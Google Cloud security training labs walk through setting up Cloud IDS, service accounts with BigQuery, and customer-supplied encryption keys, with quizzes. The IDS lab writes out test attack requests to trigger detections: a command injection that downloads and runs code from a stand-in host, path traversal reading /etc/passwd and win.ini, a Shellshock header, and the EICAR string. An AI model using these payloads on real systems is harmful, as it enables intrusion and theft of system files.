After a few moments, the Cloud console opens in this tab.

**Note:** You can view the menu with a list of Google Cloud Products and Services by clicking the **Navigation menu** at the top-left. 

##### Activate Google Cloud Shell

Google Cloud Shell is a virtual machine that is loaded with development tools. It offers a persistent 5GB home directory and runs on the Google Cloud.

Google Cloud Shell provides command-line access to your Google Cloud resources.

1. In Cloud console, on the top right toolbar, click the Open Cloud Shell button.

   

2. Click **Continue**.

It takes a few moments to provision and connect to the environment. When you are connected, you are already authenticated, and the project is set to your *PROJECT_ID*. For example:


**gcloud** is the command-line tool for Google Cloud. It comes pre-installed on Cloud Shell and supports tab-completion.

- You can list the active account name with this command:

```
gcloud auth list
```

Copied!

**Output:**

```
Credentialed accounts:
 - <myaccount>@<mydomain>.com (active)
</mydomain></myaccount>
```

**Example output:**

```
Credentialed accounts:
 - google1623327_student@qwiklabs.net
```

- You can list the project ID with this command:

```
gcloud config list project
```

Copied!

**Output:**

```
[core]
project = <project_id>
</project_id>
```

**Example output:**

```
[core]
project = qwiklabs-gcp-44776a13dea667a6
```

**Note:** Full documentation of **gcloud** is available in the [gcloud CLI overview guide ](https://cloud.google.com/sdk/gcloud).

This lab will all be done using `gcloud` CLI commands inside Cloud Shell.

#### Task 1. Enable APIs

In this task you set the project ID variable and then enable the APIs required for the lab.

1. In Cloud Shell, to set the **Project_ID** environment variable, run the following command:

```
export PROJECT_ID=$(gcloud config get-value project | sed '2d')
```

Copied!

1. Enable the Service Networking API:

```
gcloud services enable servicenetworking.googleapis.com \
    --project=$PROJECT_ID
```

Copied!

If prompted to authorize the command, click **Authorize**.

1. Enable the Cloud IDS API:

```
gcloud services enable ids.googleapis.com \
    --project=$PROJECT_ID
```

Copied!

1. Enable the Cloud Logging API:

```
gcloud services enable logging.googleapis.com \
    --project=$PROJECT_ID
```

Copied!

Click *Check my progress* to verify the objective.

Enable APIs.


Check my progress


#### Task 2. Build the Google Cloud networking footprint

In this task, you create a Google Cloud VPC network and configure private services access.

Private services access is a private connection between your VPC network and a network owned by Google or a third party. Google or the third party, entities who are offering services, are also known as service producers.

The private connection enables virtual machine (VM) instances in your VPC network and the services that you access to communicate exclusively by using internal IP addresses.

1. In Cloud Shell, to create a VPC, run the following command:

```
gcloud compute networks create cloud-ids \
--subnet-mode=custom
```

Copied!

If prompted to authorize the command, click **Authorize**.

1. Add a subnet to the VPC for mirrored traffic in us-east1:

```
gcloud compute networks subnets create cloud-ids-useast1 \
--range=192.168.10.0/24 \
--network=cloud-ids \
--region=us-east1
```

Copied!

1. Configure private services access:

```
gcloud compute addresses create cloud-ids-ips \
--global \
--purpose=VPC_PEERING \
--addresses=10.10.10.0 \
--prefix-length=24 \
--description="Cloud IDS Range" \
--network=cloud-ids
```

Copied!

1. Create a private connection:

```
gcloud services vpc-peerings connect \
--service=servicenetworking.googleapis.com \
--ranges=cloud-ids-ips \
--network=cloud-ids \
--project=$PROJECT_ID
```

Copied!

Click *Check my progress* to verify the objective.

Create a VPC.


Check my progress


#### Task 3. Create a Cloud IDS endpoint

In this task you create a Cloud IDS endpoint in us-east1 with a severity set to *informational*.

Cloud IDS uses a resource known as an IDS endpoint, a zonal resource that can inspect traffic from any zone in its region. Each IDS endpoint receives mirrored traffic and performs threat detection analysis.

**Note:** The creation of the IDS endpoint takes approximately 20 minutes.

1. To create a Cloud IDS endpoint, in Cloud Shell, run the following command:

```
gcloud ids endpoints create cloud-ids-east1 \
--network=cloud-ids \
--zone=us-east1-b \
--severity=INFORMATIONAL \
--async
```

Copied!

1. Verify that the Cloud IDS endpoint is initiated:

```
gcloud ids endpoints list --project=$PROJECT_ID
```

Copied!

If the message **Would you like to enable and retry** appears, press **Y**.

The output should be similar to this:

Command Output

```
  ID: cloud-ids-east1
  LOCATION: us-east1-b
  SEVERITY: INFORMATIONAL
  STATE: CREATING
  NETWORK: cloud-ids
  TRAFFIC_LOGS:
```

Click *Check my progress* to verify the objective.

Create a Cloud IDS endpoint.


Check my progress


#### Task 4. Create Firewall rules and Cloud NAT

In this task you create two firewall rules: allow-http-icmp and allow-iap-proxy.

To enable standard http port (TCP 80) connections, and ICMP protocol connections to the server VM from all sources in the cloud-ids network, you define the *allow-http-icmp* rule.

To enable SSH connections to the VMs from the Identity-Aware Proxy IP range, you define the allow-iap-proxy_ rule.

You also configure Cloud Router and then configure Cloud NAT. As a prerequisite for Cloud NAT, a Cloud Router must first be configured in the same region. To provide internet access to VMs that don't have a public IP address, a Cloud NAT must be created in the same region. The VMs will be created without a public IP address to make sure that they are inaccessible *from* the internet. However, they will need access *to* the internet to download updates and files.

1. To create the allow-http-icmp rule, in Cloud Shell, run the following command:

```
gcloud compute firewall-rules create allow-http-icmp \
--direction=INGRESS \
--priority=1000 \
--network=cloud-ids \
--action=ALLOW \
--rules=tcp:80,icmp \
--source-ranges=0.0.0.0/0 \
--target-tags=server
```

Copied!

1. Create the allow-iap-proxy rule:

```
gcloud compute firewall-rules create allow-iap-proxy \
--direction=INGRESS \
--priority=1000 \
--network=cloud-ids \
--action=ALLOW \
--rules=tcp:22 \
--source-ranges=35.235.240.0/20
```

Copied!

Click *Check my progress* to verify the objective.

Add firewall rules to the VPC.


Check my progress


1. To create a Cloud Router, run the following command:

```
gcloud compute routers create cr-cloud-ids-useast1 \
--region=us-east1 \
--network=cloud-ids
```

Copied!

1. To configure a Cloud NAT, run the following command:

```
gcloud compute routers nats create nat-cloud-ids-useast1 \
--router=cr-cloud-ids-useast1 \
--router-region=us-east1 \
--auto-allocate-nat-external-ips \
--nat-all-subnet-ip-ranges
```

Copied!

Click *Check my progress* to verify the objective.

Create a Cloud Router.


Check my progress


#### Task 5. Create two virtual machines

In this task, you create two virtual machines (VMs). The first virtual machine is your web server, which is mirroring to Cloud IDS. The second virtual machine is the source of your attack traffic.

You establish an SSH connection to your server via Identity-Aware Proxy (IAP), check the status of your web service server, create a benign malware file on the web server, and then add content to the file.

1. To create a virtual machine to be a server mirroring to Cloud IDS, in Cloud Shell, run the following command:

```
gcloud compute instances create server \
--zone=us-east1-b \
--machine-type=e2-medium \
--subnet=cloud-ids-useast1 \
--no-address \
--private-network-ip=192.168.10.20 \
--metadata=startup-script=\#\!\ /bin/bash$'\n'sudo\ apt-get\ update$'\n'sudo\ apt-get\ -qq\ -y\ install\ nginx \
--tags=server \
--image=debian-11-bullseye-v20240709 \
--image-project=debian-cloud \
--boot-disk-size=10GB
```

Copied!

This command creates a Debian server in us-east1 and installs a simple web service.

1. Create a virtual machine to be a client sending attack traffic:

```
gcloud compute instances create attacker \
--zone=us-east1-b \
--machine-type=e2-medium \
--subnet=cloud-ids-useast1 \
--no-address \
--private-network-ip=192.168.10.10 \
--image=debian-11-bullseye-v20240709 \
--image-project=debian-cloud \
--boot-disk-size=10GB
```

Copied!

This command prepares a Debian server in us-east1 to use as your client.

Click *Check my progress* to verify the objective.

Create a virtual machine.


Check my progress


##### Prepare your server

In this procedure, you validate your server and then create a benign malware payload for your client.

1. To establish an SSH connection to your server via IAP, run the following command:

```
gcloud compute ssh server --zone=us-east1-b --tunnel-through-iap
```

Copied!

This command will prompt you through a series of steps to create an ssh key and the required directories.

1. To agree to the directory creation prompt, type **Y**.
2. When prompted for a passphrase, to use a blank passphrase, press ENTER twice.

You are now in the shell of your server VM.

##### Confirm that the web service is running

In this procedure, you check the status of your web service server. You create a benign malware file on the web server and then add content to the file.

1. To check the status of your web service, run the following Linux command:

```
sudo systemctl status nginx
```

Copied!

The output should be similar to this:

Command Output

```
 ● nginx.service - A high performance web server and a reverse proxy server
   Loaded: loaded (/lib/systemd/system/nginx.service; enabled; vendor preset: enabled)
   Active: active (running) since Tue 2021-05-25 18:01:49 UTC; 5h 24 min ago
   Docs: man:nginx(8)
   Main PID: 1347 (nginx)
   Tasks: 3 (limit: 4665)
   Memory: 4.5M
   CGroup: /system.slice/nginx.service
           ├─1347 nginx: master process /usr/sbin/nginx -g daemon on; master_process on;
           ├─1348 nginx: worker process
           └─1349 nginx: worker process

   May 25 18:01:49 server systemd[1]: Starting A high performance web server and a reverse proxy server...
   May 25 18:01:49 server systemd[1]: Started A high performance web server and a reverse proxy server.                       
```

1. Change directory to the web service:

```
cd /var/www/html/
```

Copied!

1. Create a benign malware file on the web server. Run the following Linux command to create a text file:

```
sudo touch eicar.file
```

Copied!

1. Add the following content to the newly created file:

```
echo 'X5O!P%@AP[4\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*' | sudo tee eicar.file
```

Copied!

1. Exit the server VM shell and return to Cloud Shell:

```
exit
```

Copied!

#### Task 6. Create a Cloud IDS packet mirroring policy

In this task, you create a Cloud IDS packet mirroring policy. This policy determines what traffic is mirrored to the Cloud IDS. You will then attach this policy to the newly created Cloud IDS endpoint.

As mentioned earlier, the Cloud IDS endpoint creation takes some time. Before you can proceed with this lab, the endpoint must be in an active/ready state.

1.To verify that your Cloud IDS endpoint is active, in Cloud Shell, run the following command to show the current state of the Cloud IDS endpoint:

```
gcloud ids endpoints list --project=$PROJECT_ID | grep STATE
```

Copied!

The output should be similar to this:

Command Output

```
  STATE: READY
```

Continue to run this command every few minutes until the state shows *READY*.

1. Identify the Cloud IDS endpoint forwarding rule and confirm that the Cloud IDS endpoint state is *READY*:

```
export FORWARDING_RULE=$(gcloud ids endpoints describe cloud-ids-east1 --zone=us-east1-b --format="value(endpointForwardingRule)")
echo $FORWARDING_RULE
```

Copied!

The output should be similar to this:

Command Output

```
  https://www.googleapis.com/compute/v1/projects/md975a7fa0a53145dp-tp/regions/us-east1/forwardingRules/ids-fr-cloud--xkkerutlagop6opm                         
```


1. Create and attach the packet mirroring policy:

```
gcloud compute packet-mirrorings create cloud-ids-packet-mirroring \
--region=us-east1 \
--collector-ilb=$FORWARDING_RULE \
--network=cloud-ids \
--mirrored-subnets=cloud-ids-useast1
```

Copied!

Click *Check my progress* to verify the objective.

Create and attach the packet mirroring policy.


Check my progress


1. Verify that the packet mirroring policy is created:

```
gcloud compute packet-mirrorings list
```

Copied!

This gcloud command lists the packet mirroring policies and shows whether they are enabled/disabled.

The output should be similar to this:

Command Output

```
  NAME: cloud-ids-packet-mirroring
  REGION: us-east1
  NETWORK: cloud-ids
  ENABLE: TRUE                        
```

#### Task 7. Simulate attack traffic

In this task, you establish an SSH connection to your attacked virtual machine and simulate attack traffic from a virtual machine to your server. You do this by running a selection of `curl` commands that range from low severity to critical severity.

1. To establish an SSH connection to your attacker virtual machine through IAP, in Cloud Shell, run the following command:

```
gcloud compute ssh attacker --zone=us-east1-b --tunnel-through-iap
```

Copied!

**Note:** You are now in the shell of your attacker VM and not the Cloud Shell machine.

1. Run the following `curl` requests in sequence to simulate low, medium, high, and critical severity alerts on the IDS:

**Low Severity:**

```
curl "http://192.168.10.20/weblogin.cgi?username=admin';cd /tmp;wget http://123.123.123.123/evil;sh evil;rm evil"
```

Copied!

**Medium Severity:**

```
curl http://192.168.10.20/?item=../../../../WINNT/win.ini
curl http://192.168.10.20/eicar.file
```

Copied!

**High Severity:**

```
curl http://192.168.10.20/cgi-bin/../../../..//bin/cat%20/etc/passwd
```

Copied!

**Critical Severity:**

```
curl -H 'User-Agent: () { :; }; 123.123.123.123:9999' http://192.168.10.20/cgi-bin/test-critical
```

Copied!

1. Exit the attacker virtual machine shell and return to Cloud Shell:

```
exit
```

Copied!

#### Task 8. Review threats detected by Cloud IDS

In this task, you review the various attack traffic captured by the Cloud IDS in the Cloud console. The captured attack traffic profiles provide details of each threat.

1. In the Google Cloud console, in the **Navigation menu** (), click **Network Security > Cloud IDS**.
2. Click the **Threats** tab.

The Cloud IDS captured various attack traffic profiles and provided the details on each threat. You may need to click **Refresh** if you do not see any threats. You now dive a little deeper and view threat details.

1. Locate the **Bash Remote Code Execution Vulnerability** threat, click **More** (), and then select **View threat details**.

**Note:** You may have noticed that there are multiple threats that produce the same name, for example, “Bash Remote Code Execution Vulnerability”. This is expected behavior.


If you look closely, you will see that the session IDs of the threats are different. Since both VMs created are in the same subnet, we are seeing mirrored packets for both the client and server. Outbound packets from the client are being mirrored to IDS, and additionally, inbound packets to the server are being mirrored to IDS.

1. Now you view the details of this incident in Cloud Logging. To return to the **Threats** page, click the left arrow.
2. Click the **Threats** tab.
3. Locate the **Bash Remote Code Execution Vulnerability**, click **More**, and then select **View threat logs**.

A new Cloud Logging tab opens that displays the same details. This enables you to send the logs to Cloud Storage, Chronicle, or any SIEM/SOAR. You can also create custom workflows to take remediation action based on alerts, like creating a Cloud Function that triggers on an alert and creating or updating a firewall rule to block the IP address, or creating or updating a Google Cloud Armor policy.

Click *Check my progress* to verify the objective.

Getting Started with Cloud IDS.


Check my progress


#### Congratulations!

In this lab, you did the following:

1. Created a new VPC and deployed a Cloud IDS endpoint.
2. Deployed two VMs, created a packet mirroring policy, and then sent attack traffic.
3. Verified that the Cloud IDS captured the threats by viewing the threat details in the Cloud console and the threat logs in Cloud Logging.

### Quiz


1. Which ONE of the following statements is TRUE when discussing the SSL capabilities of Google Cloud Load Balancer?

- **The Google-managed profile, COMPATIBLE, allows clients which support out-of-date SSL features.**
- You must use one of the 3 pre-configured “Google-managed profiles” to specify the level of compatibility appropriate for your application.
- Google Cloud Load Balancers require, and will only accept, a Google-managed SSL Cert.
- If no SSL policy is set, the SSL policy is automatically set to the most constrained policy, which is RESTRICTED.

Correct! The other two profiles, MODERN and RESTRICTED allow you to restrict SSL usage to clients with modern capabilities, or to restrict SSL access even further to meet compliance requirements.

2. Which FOUR of the following are firewall rule parameters?

- Timestamp

- **Direction**

- **Source**

- **Action**

- **IP Address**

- Organization

- Project

  

3. Which statement about VPC Service Controls is false?

- VPC Service Controls protect resources within a perimeter so they can only be privately accessed from clients within authorized VPC networks.
- VPC Service Controls restrict Internet access to resources within a perimeter using allowlisted IPv4 and IPv6 ranges.
- VPC Service Controls prevent data from being copied to unauthorized resources outside the perimeter using service operations.
- **VPC Service Controls restrict Internet access to resources within a perimeter by checking permissions assigned to Cloud Identity and Active Directory accounts only.**

Correct! Perimeters are checked against allowlisted IPv4 or IPv6 ranges, not against accounts.

4. Which TWO of the following statements about VPCs is TRUE?

- Google Cloud Firewall allows rules by default only affect traffic flowing in one direction.

- A connection is considered active if it has at least one packet sent over a one hour period.

- **VPC firewall rules in Google Cloud are global in scope.**

  Correct! Since VPC networks can be global in Google Cloud, firewall rules are also global.

- **Every VPC network functions as a distributed firewall where firewall rules are defined at the network level.**

  Correct! Google Cloud firewall rules exist not only between your instances and other networks, but also between individual instances within the same network.


# 10 Security Best Practices in Google Cloud


## Securing Compute Engine: Techniques and Best Practices


### LAB - Configuring, Using, and Auditing VM Service Accounts and Scopes


#### Overview

[Service accounts](https://cloud.google.com/iam/docs/service-accounts) are a special type of Google account that grant permissions to virtual machines instead of end users. Service accounts are primarily used to ensure safe, managed connections to APIs and Google Cloud services. Granting access to trusted connections and rejecting malicious ones is a must-have security feature for any Google Cloud project.

##### Objectives

In this lab, you will learn how to:

- Create and manage service accounts.
- Create a virtual machine and associate it with a service account.
- Use client libraries to access BigQuery from a service account.
- Run a query on a BigQuery public dataset from a Compute Engine instance.

#### Setup and requirements

For each lab, you get a new Google Cloud project and set of resources for a fixed time at no cost.

1. Sign in to Qwiklabs using an **incognito window**.
2. Note the lab's access time (for example, `1:15:00`), and make sure you can finish within that time.
   There is no pause feature. You can restart if needed, but you have to start at the beginning.
3. When ready, click **Start lab**.
4. Note your lab credentials (**Username** and **Password**). You will use them to sign in to the Google Cloud Console.
5. Click **Open Google Console**.
6. Click **Use another account** and copy/paste credentials for **this** lab into the prompts.
   If you use other credentials, you'll receive errors or **incur charges**.
7. Accept the terms and skip the recovery resource page.

**Note:** Do not click **End Lab** unless you have finished the lab or want to restart it. This clears your work and removes the project.

##### Activate Google Cloud Shell

Google Cloud Shell is a virtual machine that is loaded with development tools. It offers a persistent 5GB home directory and runs on the Google Cloud.

Google Cloud Shell provides command-line access to your Google Cloud resources.

1. In Cloud console, on the top right toolbar, click the Open Cloud Shell button.

   

2. Click **Continue**.

It takes a few moments to provision and connect to the environment. When you are connected, you are already authenticated, and the project is set to your *PROJECT_ID*. For example:


**gcloud** is the command-line tool for Google Cloud. It comes pre-installed on Cloud Shell and supports tab-completion.

- You can list the active account name with this command:

```
gcloud auth list
```

Copied!

**Output:**

```
Credentialed accounts:
 - <myaccount>@<mydomain>.com (active)
</mydomain></myaccount>
```

**Example output:**

```
Credentialed accounts:
 - google1623327_student@qwiklabs.net
```

- You can list the project ID with this command:

```
gcloud config list project
```

Copied!

**Output:**

```
[core]
project = <project_id>
</project_id>
```

**Example output:**

```
[core]
project = qwiklabs-gcp-44776a13dea667a6
```

**Note:** Full documentation of **gcloud** is available in the [gcloud CLI overview guide ](https://cloud.google.com/sdk/gcloud).

##### What are service accounts?

A service account is a special Google account that belongs to your application or a [virtual machine](https://cloud.google.com/compute/docs/instances/) (VM) instead of an individual end user. Your application uses the service account to [call the Google API of a service](https://developers.google.com/identity/protocols/OAuth2ServiceAccount#authorizingrequests), so that the users aren't directly involved.

For example, a Compute Engine VM may run as a service account and that account can be given permissions to access the resources it needs. This way the service account is the identity of the service, and the service account's permissions control which resources the service can access.

A service account is identified by its email address, which is unique to the account.

##### Types of service accounts

#### User-managed service accounts

When you create a new Cloud project using the Cloud Console, if the Compute Engine API is enabled for your project, a Compute Engine service account is created for you by default. It is identifiable using the email: `PROJECT_NUMBER-compute@developer.gserviceaccount.com`.

If your project contains an App Engine application, the default App Engine service account is created in your project by default. It is identifiable using the email: `PROJECT_ID@appspot.gserviceaccount.com`.

#### Google-managed service accounts

In addition to the user-managed service accounts, you might see some additional service accounts in your project’s IAM policy or in the Cloud Console. These service accounts are created and owned by Google. These accounts represent different Google services and each account is automatically granted IAM roles to access your Google Cloud project.

#### Google API service accounts

An example of a Google-managed service account is a Google API service account identifiable using the email: `PROJECT_NUMBER@cloudservices.gserviceaccount.com`.

This service account is designed specifically to run internal Google processes on your behalf and is not listed in the **Service Accounts** section of the Cloud Console. By default, the account is automatically granted the project editor role on the project and is listed in the **IAM** section of the Cloud Console.

This service account is deleted only when the project is deleted. Google services rely on the account having access to your project, so you should not remove or change the service account’s role on your project.

#### Task 1. Create and manage service accounts

In this task, you create and manage service accounts.

By default, you can create up to 100 user-managed service accounts in a project. If this quota does not meet your needs, you can use the Cloud console to request a quota increase.

**Note:** The default service accounts described on this page do not count toward this quota.

##### Creating a service account

Creating a service account is similar to adding a member to your project, but the service account belongs to your applications rather than an individual end user.

- To create a service account, run the following command in Cloud Shell:

```
gcloud iam service-accounts create my-sa-123 --display-name "my service account"
```

Copied!

The output of this command is the service account, which will look similar to the following.

**Output:**

```
Created service account [my-sa-123]
```

##### Granting roles to service accounts

When granting IAM roles, you can treat a service account either as a [resource](https://cloud.google.com/iam/docs/overview#resource) or as an [identity](https://cloud.google.com/iam/docs/overview#concepts_related_to_identity).

Your application uses a service account as an identity to authenticate to Google Cloud services. For example, if you have a Compute Engine Virtual Machine (VM) running as a service account, you can grant the editor role to the service account (the identity) for a project (the resource).

At the same time, you might also want to control who can start the VM. You can do this by granting a user (the identity) the [serviceAccountUser](https://cloud.google.com/iam/docs/service-accounts#the_service_account_user_role) role for the service account (the resource).

##### Granting roles to a service account for specific resources

You grant roles to a service account so that the service account has permission to complete specific actions on the resources in your Google Cloud project. For example, you might grant the `storage.admin` role to a service account so that it has control over objects and buckets in Cloud Storage.

- Run the following in Cloud Shell to grant roles to the service account you just made:

```
gcloud projects add-iam-policy-binding $DEVSHELL_PROJECT_ID \
    --member serviceAccount:my-sa-123@$DEVSHELL_PROJECT_ID.iam.gserviceaccount.com --role roles/editor
```

Copied!

The output will display a list of roles the service account now has.

**Output:**

```
bindings:
- members:
  - user:email1@gmail.com
    role: roles/owner
- members:
  - serviceAccount:our-project-123@appspot.gserviceaccount.com
  - serviceAccount:123456789012-compute@developer.gserviceaccount.com
  - serviceAccount:my-sa-123@my-project-123.iam.gserviceaccount.com
  - user:email3@gmail.com
    role: roles/editor
- members:
  - user:email2@gmail.com
role: roles/viewer
etag: BwUm38GGAQk=
version: 1
```

Click *Check my progress* to verify the objective.

Creating and Managing Service Account


Check my progress


##### Understanding roles

When an identity calls a Google Cloud API, Cloud Identity and Access Management (Cloud IAM) requires that the identity has the appropriate permissions to use the resource. You can grant permissions by granting roles to a user, a group, or a service account.

##### Types of roles

There are three types of roles in Cloud IAM:

- **Basic roles**, which include the Owner, Editor, and Viewer roles that existed prior to the introduction of Cloud IAM.
- **Predefined roles**, which provide granular access for a specific service and are managed by Google Cloud.
- **Custom roles**, which provide granular access according to a user-specified list of permissions.

For more details, please refer to the [IAM Roles](https://cloud.google.com/iam/docs/understanding-roles) reference documentation.

#### Task 2. Use the client libraries to access BigQuery from a service account

In this task, you query the BigQuery public datasets from an instance with the help of a service account which has the necessary roles.

##### Create a service account

You will first create a new service account using the Cloud Console.

1. In the Cloud Console, from the navigation menu, click **IAM & Admin > Service accounts**.
2. Click **Create service account**.
3. Specify the Service account name as `bigquery-qwiklab`.


1. Click **Create and Continue**.
2. Specify the Role as **BigQuery > BigQuery Data Viewer**.
3. Click **Add Another Role**.
4. Specify the other Role as **BigQuery > BigQuery User**.


1. Click **Continue**.

Your Cloud Console should resemble the following.


1. Click **Done**.

##### Create a VM instance

1. In the Cloud Console, from the navigation menu, click **Compute Engine > VM Instances**, and click **Create instance**.
2. Create your VM with the following information:

| **Configuration**   | **Value**                             |
| ------------------- | ------------------------------------- |
| **Name**            | `bigquery-instance`                   |
| **Region**          | `us-east4`                            |
| **Zone**            | `us-east4-b`                          |
| **Series**          | `E2`                                  |
| **Machine Type**    | `e2-standard-2 (2 vCPU)`              |
| **Boot Disk**       | `Debian GNU/Linux 11 (bulleye)`       |
| **Service Account** | `bigquery-qwiklab`                    |
| **Access scopes**   | `Allow full access to all Cloud APIs` |

**Note:** If the `bigquery-qwiklab` service account doesn't appear in the drop-down list, try typing the name in to the *Filter* section.

Next, you will look at the options that were added when you selected a boot disk that supports shielded VMs.

1. Click the **Security** tab. At the top of the tab, the Shielded VM options appear. If you had not selected a boot disk with shielded VM features, these options would not have appeared. Some of these options are selected by default.
2. Click the **Turn on Secure Boot** checkbox.


Compute Engine does not enable this option by default, because unsigned drivers and other low-level software might not be compatible. Even so, if possible, Google recommends enabling Secure Boot.

1. Click **Create**.

##### Put the example code on a Compute Engine instance

1. In the Cloud Console, go to **Compute Engine > VM Instances**.
2. SSH into `bigquery-instance` by clicking on the **SSH** button. Click **Connect**.
3. In the SSH window, install the necessary dependencies by running the following commands:

```
sudo apt-get update -y
```

Copied!

```
sudo apt-get install -y git python3-pip
```

Copied!

```
sudo pip3 install six==1.13.0
```

Copied!

```
sudo pip3 install --upgrade pip
```

Copied!

```
sudo pip3 install --upgrade google-cloud-bigquery
```

Copied!

```
sudo pip3 install pandas
```

Copied!

1. Using the `echo` command, create `query.py`. You will use this file, written in Python, to run the query.

```
echo "
from google.auth import compute_engine
from google.cloud import bigquery

credentials = compute_engine.Credentials(
    service_account_email='YOUR_SERVICE_ACCOUNT')

query = '''
SELECT
  year,
  COUNT(1) as num_babies
FROM
  publicdata.samples.natality
WHERE
  year > 2000
GROUP BY
  year
'''

client = bigquery.Client(
    project='YOUR_PROJECT_ID',
    credentials=credentials)
print(client.query(query).to_dataframe())
" > query.py
```

Copied!

1. Add the Project ID to `query.py` with:

```
sed -i -e "s/YOUR_PROJECT_ID/$(gcloud config get-value project)/g" query.py
```

Copied!

1. Run the following to make sure that the `sed` command has successfully changed the Project ID in the file:

```
cat query.py
```

Copied!

**Example output** (yours will differ):

```
from google.auth import compute_engine
from google.cloud import bigquery

credentials = compute_engine.Credentials(
    service_account_email='YOUR_SERVICE_ACCOUNT')

query = '''
SELECT
  year,
  COUNT(1) as num_babies
FROM
  publicdata.samples.natality
WHERE
  year > 2000
GROUP BY
  year
'''

client = bigquery.Client(
    project='qwiklabs-gcp-186de687ef87f911',
    credentials=credentials)
print(client.query(query).to_dataframe())
```

1. Add the service account email to `query.py` with:

```
sed -i -e "s/YOUR_SERVICE_ACCOUNT/bigquery-qwiklab@$(gcloud config get-value project).iam.gserviceaccount.com/g" query.py
```

Copied!

1. Run the following to make sure that the `sed` command has successfully changed the service account email in the file:

```
cat query.py
```

Copied!

**Example output** (yours will differ):

```
from google.auth import compute_engine
from google.cloud import bigquery
credentials = compute_engine.Credentials(
    service_account_email='bigquery-qwiklab@qwiklabs-gcp-186de687ef87f911.iam.gserviceaccount.com')

query = '''
SELECT
  year,
  COUNT(1) as num_babies
FROM
  publicdata.samples.natality
WHERE
  year > 2000
GROUP BY
  year
'''

client = bigquery.Client(
    project='qwiklabs-gcp-186de687ef87f911',
    credentials=credentials)
print(client.query(query).to_dataframe())
```

The application will now use the permissions that are associated with this service account.

1. Install the `pyarrow` library using this command:

```
sudo pip3 install pyarrow==16.1.0
```

Copied!

1. Install the `db-dtypes` library using this command:

```
sudo pip3 install db-dtypes
```

Copied!

1. Run the `query.py` using this command:

```
python3 query.py
```

Copied!

You should be returned with a similar output as the following.

**Output:**

```
   year  num_babies
0  2008     4255156
1  2002     4027376
2  2005     4145619
3  2006     4273225
4  2001     4031531
5  2007     4324008
6  2003     4096092
7  2004     4118907
```

**Note:** Your row values might not map to the years in the above output. However, make sure that the babies per year are the same.

You made a request to a BigQuery public dataset with a `bigquery-qwiklab` service account.

Click *Check my progress* to verify the objective.

Use the Client Libraries to access BigQuery from a service account


Check my progress


#### Congratulations!

In this lab, you have learned how to do the following:

- Create and manage service accounts.
- Create a virtual machine and associate it with a service account.
- Use client libraries to access BigQuery from a service account.
- Run a query on a BigQuery public dataset from a Compute Engine instance.


### Quiz

1. Which TWO recommendations below ARE considered to be Compute Engine "best practices?"

- **Cloud Interconnect or Cloud VPN can be used to securely extend your data center network into Google Cloud projects.**

  Correct! Using these services to extend your on-prem resources into the cloud helps to make your hybrid network more secure and reliable.

- Always run critical VMs with default, scope-based service accounts.

- Hardened custom images, once added to your Organization's resources, are then maintained by Google with automatic security patches and other updates.

- **Utilize projects and IAM roles to control access to your VMs.**
  Correct! Projects form the basis for creating, enabling, and using all Google Cloud services including managing permissions for Google Cloud resources.

2. Which TWO of the following statements is TRUE when discussing the Organization Policy Service?

- Descendants of a targeted resource do not inherit the parent's Organization Policy.

- **Organization Policy Services allow centralized control for how your organization’s resources can be used.**

  Correct! Organization Policy Service gives you both centralized and programmatic control over your organization's cloud resources.

- **To define an Organization Policy, you will choose and then define a constraint against either a Google Cloud service or a group of Google Cloud services.**
  Correct! Organization Policy Service allows you to set constraints that apply to all resources in your organization's hierarchy.

3. Which of the following TWO statements about Google Cloud service accounts are TRUE?

- **Virtual Machine (VM) instances use service accounts to run API requests on your behalf.**

  Correct! When launching a virtual machine in Compute Engine, a service account can be associated directly to that VM.

- VMs without service accounts cannot run APIs.

- Custom service accounts use "scopes" to control API access.

- **Service accounts are a type of identity.**

  Correct! VMs authenticate using the identity of a service account when making calls to the Google APIs.


## Securing Cloud Data: Techniques and Best Practices

### LAB - Using Customer-Supplied Encryption Keys with Cloud Storage

#### Overview

[Cloud Storage](https://cloud.google.com/storage) always encrypts your data on the server side with a Google-managed encryption key, before it is written to disk, at no additional charge. As an alternative to a Google-managed server-side encryption key, you can choose to provide your own AES-256 key, encoded in standard Base64. This key is known as a customer-supplied encryption key.

In this lab, you will configure customer-supplied encryption keys (CSEK) for Cloud Storage. Files will then be uploaded into a storage bucket. You will then generate a new encryption key and rotate CSEK keys.

Cloud Storage does not permanently store your key on Google's servers or otherwise manage your key. Instead, you provide your key for each Cloud Storage operation, and your key is purged from Google's servers after the operation is complete. Cloud Storage stores only a cryptographic hash of the key so that future requests can be validated against the hash.

Your key cannot be recovered from this hash, and the hash cannot be used to decrypt your data.

##### Objectives

In this lab, you wil learn how to perform the following tasks:

- Configure CSEK for Cloud Storage.
- Utilize CSEK to encrypt files in Cloud Storage.
- Delete local files from Cloud Storage and verify encryption.
- Rotate your encryption keys without downloading and re-uploading data.

#### Setup and requirements

For each lab, you get a new Google Cloud project and set of resources for a fixed time at no cost.

1. Sign in to Qwiklabs using an **incognito window**.
2. Note the lab's access time (for example, `1:15:00`), and make sure you can finish within that time.
   There is no pause feature. You can restart if needed, but you have to start at the beginning.
3. When ready, click **Start lab**.
4. Note your lab credentials (**Username** and **Password**). You will use them to sign in to the Google Cloud Console.
5. Click **Open Google Console**.
6. Click **Use another account** and copy/paste credentials for **this** lab into the prompts.
   If you use other credentials, you'll receive errors or **incur charges**.
7. Accept the terms and skip the recovery resource page.

**Note:** Do not click **End Lab** unless you have finished the lab or want to restart it. This clears your work and removes the project.

#### Task 1. Configure required resources

In this task, you configure the required resources that will be used throughout the lab.

##### Create an IAM service account

**Note:** In this lab, you will launch a VM in Compute Engine and perform most of the work on this VM. A service account will first be created to provide the VM with the required permissions to perform the lab.

1. In the Google Cloud Console, select **Navigation menu > IAM & admin > Service accounts**.
2. Click **Create Service Account**.
3. Specify the **Service account name** as `cseklab`.
4. Click **Create and Continue**.
5. Specify the **Role** as **Cloud Storage > Storage Admin**.
6. Click **Continue**.
7. Click **Done**.

##### Create a Compute Engine VM

1. In the Cloud Console, go to **Navigation menu > Compute Engine > VM instances**. Click **Create Instance**.
2. Specify the following, and leave the remaining settings as their defaults.

- **Name:** `cseklab-vm`
- **Region:** `us-central1`
- **Zone:** `us-central1-a`
- **Series:** `E2`
- **Machine type:** `e2-micro`

1. Click **Security**, and then specify the following:

- **Service account:** The **cseklab** service account just created
- **Access scopes:** Select **Set access for each API**, for **Storage** select **Full** from the dropdown.

1. Click **Create**.
2. Once the VM launches, click the **SSH** button to connect to the VM.

##### Create a Cloud Storage bucket

